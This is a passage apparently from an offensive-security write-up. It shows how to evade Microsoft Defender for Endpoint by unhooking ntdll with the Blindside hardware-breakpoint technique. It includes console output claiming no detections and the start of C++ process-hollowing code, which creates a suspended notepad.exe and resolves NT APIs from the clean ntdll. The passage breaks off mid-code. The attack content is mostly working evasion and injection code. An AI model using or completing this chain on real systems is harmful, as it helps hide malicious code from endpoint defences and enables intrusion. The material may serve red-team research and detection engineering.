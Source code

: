 This method stays unnoticed / undetected by MDE due to Microsoft's lack of acknowledgment regarding attempts to generate telemetry, as mentioned in the Conclusion section of the Blindside blog.

Compiling and analyzing the Blindside POC locally with Defender without any Process Injection code set included, no detections were found.

```
C:\> .\ThreatCheck.exe -f Blindside.exe
[+] No threat found!
```

Testing Blindside execution against an updated machine with MDE enabled and monitoring for alerts and detections, we find none.

```
C:\> .\Blindside.exe
[+] Creating new process in debug mode
[+] Found LdrLoadDllAddress address: 0x00007FFC875DAE00
[+] Setting HWBP on remote process
[+] Breakpoint Hit!
[+] Copying clean ntdll from remote process
[+] Found ntdll base address: 0x00007FFC875A0000
[+] Unhooked
```

It is now possible to leverage this unhooked NTDLL module to resolve and invoke the mentioned Process Hollowing APIs.
Building on the Blindside source to add Process Injection functionality, replace and resolve all NT APIs associated with Process Hollowing leaving out CreateProcess and other APIs associated with thread context manipulation. 

*Note: NT API header definitions have to be included.*

```
int main()
{
    /* Blindside technique for fresh ntdll */
	[snip]

    // create startup info struct
    LPSTARTUPINFOW startup_info = new STARTUPINFOW();
    startup_info->cb = sizeof(STARTUPINFOW);
    startup_info->dwFlags = STARTF_USESHOWWINDOW;

    // create process info struct
    PPROCESS_INFORMATION process_info = new PROCESS_INFORMATION();

    // null terminated command line
    wchar_t cmd[] = L"notepad.exe\0";

    /* Process Hollowing */
    // create process
    BOOL success = CreateProcess(
        NULL,
        cmd,
        NULL,
        NULL,
        FALSE,
        CREATE_NO_WINDOW | CREATE_SUSPENDED,
        NULL,
        NULL,
        startup_info,
        process_info);

    // Resolve NtAPIs
    // HMODULE hNtdll is the handle to Unhooked ntdll
    NtCreateSection ntCreateSection = (NtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
```